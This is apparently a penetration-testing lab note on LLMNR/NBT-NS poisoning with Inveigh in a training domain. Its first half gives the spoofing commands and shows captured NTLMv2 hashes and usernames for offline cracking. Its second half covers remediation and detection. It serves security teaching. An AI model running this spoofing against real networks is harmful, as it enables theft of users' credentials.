 # LLMNR/NBT-NS Poisoning - from Windows (+REMEDIATION)

***

### <mark style="color:red;">Using Inveigh</mark>

```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```

Let's start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file. We will leave the rest of the defaults, which can be seen [here](https://github.com/Kevin-Robertson/Inveigh#parameter-help).

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-02-28T19:26:30
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.5.25
[+] Spoofer IP Address = 172.16.5.25
[+] ADIDNS Spoofer = Disabled
```
{% endcode %}

We can see that we immediately begin getting LLMNR and mDNS requests. The below animation shows the tool in action.

<figure><img src="../../.gitbook/assets/inveigh_pwsh.png" alt=""><figcaption></figcaption></figure>

As we can see, the tool starts and shows which options are enabled by default and which are not. The options with a `[+]` are default and enabled by default and the ones with a `[ ]` before them are disabled. The running console output also shows us which options are disabled and, therefore, responses are not being sent (mDNS in the above example).&#x20;

We can also see the message `Press ESC to enter/exit interactive console`

```powershell-session
<SNIP>

C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

After typing `HELP` and hitting enter, we are presented with several options

{% code fullWidth="true" %}
```powershell-session

Command                           Description
========================================================================================================================
GET CONSOLE                     | get queued console output
<SNAP>
STOP                            | stop Inveigh
```
{% endcode %}

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
Hashes
backupagent::INLANEFREIGHT:B5013246091943D7:16A41000400020000000800300030
forend::INLANEFREIGHT:32FD80440045004D0059002D00450041002D004D005300300031002E0049004E004C0041004E0045004600520045004
<SNIP>
```
{% endcode %}

We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.

{% code fullWidth="true" %}
```powershell-session

=================================================== NTLMv2 Usernames ===================================================

IP Address                        Host                              Username                          Challenge
========================================================================================================================
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\backupagent       | B5013246091943D7
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\forend            | 32FD89BD78804B04
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\clusteragent      | 28BF08D82FA998E4
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\wley              | 277AC2ED022DB4F7
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\svc_qualys        | 5F9BB670D23F23ED
```
{% endcode %}

Let's start Inveigh and then interact with the output a bit to put it all together.

<figure><img src="../../.gitbook/assets/inveigh_csharp.png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:red;">Remediation</mark>

Mitre ATT\&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

**There are a few ways to mitigate this attack. To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS.**&#x20;

We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."

<figure><img src="../../.gitbook/assets/llmnr_disable.webp" alt=""><figcaption></figcaption></figure>

NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.

<figure><img src="../../.gitbook/assets/disable_nbtns.webp" alt=""><figcaption></figcaption></figure>

While it is not possible to disable NBT-NS directly via GPO, we can create a PowerShell script under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following:

{% code overflow="wrap" fullWidth="true" %}
```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```
{% endcode %}

In the Local Group Policy Editor, we will need to double click on `Startup`, choose the `PowerShell Scripts` tab, and select "For this GPO, run scripts in the following order" to `Run Windows PowerShell scripts first`, and then click on `Add` and choose the script. For these changes to occur, we would have to either reboot the target system or restart the network adapter.

<figure><img src="../../.gitbook/assets/nbtns_gpo.webp" alt=""><figcaption></figcaption></figure>

To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

Once the GPO is applied to specific OUs and those hosts are restarted, the script will run at the next reboot and disable NBT-NS, provided that the script still exists on the SYSVOL share and is accessible by the host over the network.

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Other mitigations include filtering network traffic to block LLMNR/NetBIOS traffic and enabling SMB Signing to prevent NTLM relay attacks. Network intrusion detection and prevention systems can also be used to mitigate this activity, while network segmentation can be used to isolate hosts that require LLMNR or NetBIOS enabled to operate correctly.
{% endhint %}

***

### <mark style="color:red;">Detection</mark>

It is not always possible to disable LLMNR and NetBIOS, and therefore we need ways to detect this type of attack behavior. One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses. This [blog post](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/) explains this method more in-depth.

Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs [4697](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4697) and [7045](https://www.manageengine.com/products/active-directory-audit/kb/system-events/event-id-7045.html) can be monitored for. Finally, we can monitor the registry key `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` for changes to the `EnableMulticast` DWORD value. A value of `0` would mean that LLMNR is disabled.

***
